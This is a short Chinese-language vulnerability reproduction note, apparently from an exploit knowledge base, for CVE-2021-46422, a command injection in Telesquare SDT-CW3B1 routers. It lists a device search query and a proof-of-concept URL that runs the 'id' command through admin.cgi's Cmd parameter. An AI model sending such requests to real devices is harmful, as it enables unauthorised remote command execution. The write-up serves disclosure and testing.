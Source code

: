 # Telesquare SDT-CW3B1 admin.cgi 远程命令执行漏洞 CVE-2021-46422

## 漏洞描述

Telesquare SDT-CW3B1 1.1.0版本中存在命令注入漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>Telesquare SDT-CW3B1 1.1.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SDT-CS3B1"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1654142395320-945fe781-d087-46d1-a026-e1bb5f440ad5.png)

验证POC

```php
/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

![img](../../../.vuepress/public/img/1654143109183-7ba34ffa-7bdd-4552-963f-693cfcfb796f.png)
